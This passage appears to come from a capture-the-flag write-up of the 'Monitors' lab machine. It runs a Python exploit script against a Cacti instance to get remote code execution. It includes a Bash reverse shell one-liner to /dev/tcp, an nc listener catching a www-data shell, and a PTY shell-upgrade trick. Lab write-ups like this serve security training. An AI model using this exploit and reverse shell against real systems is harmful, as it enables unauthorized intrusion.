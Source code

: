     # trigger
    resp = sess.get("http://cacti-admin.monitors.htb/cacti/host.php?action=reindex")
    

Because I do that in a clean session each time, the trigger works each time.
For example, changing the `ping` command to `-c 2`:

    
    
    oxdf@parrot$ python3 rce.py 'ping -c 2 10.10.14.7'
    [+] Got CSRF: sid:7977064a20e40e119ef70c83e5b45122c75688bb,1619176652;ip:3f4eb84c44fb6969f0c21b517d000b79ddae3d2e,1619176652
    [+] Logged in with cookie: h6a28jimfsuaaef2h123csat2o
    [+] Uploaded payload
    [+] Triggered payload
    

There are two pings at `tcpdump`:

    
    
    07:17:32.695990 IP monitors.htb > 10.10.14.7: ICMP echo request, id 6432, seq 1, length 64
    07:17:32.696070 IP 10.10.14.7 > monitors.htb: ICMP echo reply, id 6432, seq 1, length 64
    07:17:33.697849 IP monitors.htb > 10.10.14.7: ICMP echo request, id 6432, seq 2, length 64
    07:17:33.697895 IP 10.10.14.7 > monitors.htb: ICMP echo reply, id 6432, seq 2, length 64
    

### Shell

The script actually works as is to get a Bash reverse shell:

    
    
    oxdf@parrot$ python3 rce.py 'bash -c "bash -i >& /dev/tcp/10.10.14.7/443 0>&1"'
    [+] Got CSRF: sid:639ec65d813f5784fe4bb82daad753ff2561d247,1619176753;ip:a92d67e8550d3415eb2ab371711c94fa01ef2005,1619176753
    [+] Logged in with cookie: 9pl7kv48dc195jkqcon9v3tvs1
    [+] Uploaded payload
    

At this point it hangs, but at a `nc` listener:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.238] 38374
    bash: cannot set terminal process group (1504): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@monitors:/usr/share/cacti/cacti$
    

I’ll use the standard Python PTY trick to upgrade the shell:

    
    
    www-data@monitors:/usr/share/cacti/cacti$ python3 -c 'import pty;pty.spawn("bash")'
    <ti/cacti$ python3 -c 'import pty;pty.spawn("bash")'
    www-data@monitors:/usr/share/cacti/cacti$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@monitors:/usr/share/cacti/cacti$
    